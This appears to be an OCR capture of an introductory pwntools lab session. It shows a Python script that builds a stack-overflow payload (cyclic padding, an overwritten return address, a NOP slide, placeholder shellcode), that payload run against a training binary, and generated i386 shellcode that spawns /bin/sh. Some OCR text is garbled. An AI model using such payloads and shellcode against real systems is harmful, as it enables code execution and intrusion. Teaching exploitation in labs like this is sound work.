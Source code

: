 ```
from pwn import *

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
shellcode = "\xcc"
payload = padding + eip + nop_slide + shellcode
print(payload)

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ python shellcraft.py 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaa��\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90�

uzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ ./intro2pwnFinal < attack
Hello There. Do you have an input for me?
Trace/breakpoint trap (core dumped)

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ shellcraft i386.linux.sh
6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ shellcraft i386.linux.sh -f a
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
```